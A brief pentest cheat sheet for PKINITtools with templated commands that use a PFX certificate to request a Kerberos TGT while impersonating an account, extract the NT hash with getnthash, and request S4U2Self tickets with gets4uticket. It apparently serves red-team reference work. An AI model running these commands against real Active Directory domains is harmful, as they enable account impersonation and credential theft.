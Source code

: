 # PKINITtools

% adcs, certificate, pki, windows, Active directory, template, shadow credential


## PKINITtools - Request a TGT using a PFX
#plateform/linux #target/remote #cat/RECON
```
gettgtpkinit -cert-pfx <pfx_file_> -pfx-pass <pfx_password|jubeaz> -dc-ip <dc_ip> <domain>/<accountToImpersonate> <ccache_path>
```

## PKINITtools - hash from TGT and AS REP key
#plateform/linux #target/remote #cat/RECON
```
export KRB5CCNAME=<cache-path> && getnthash <domain>/<ComputerAccount> -key <key>
```

## PKINITtools - silver ticket
#plateform/linux #target/remote #cat/RECON
```
gets4uticket 
```
Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate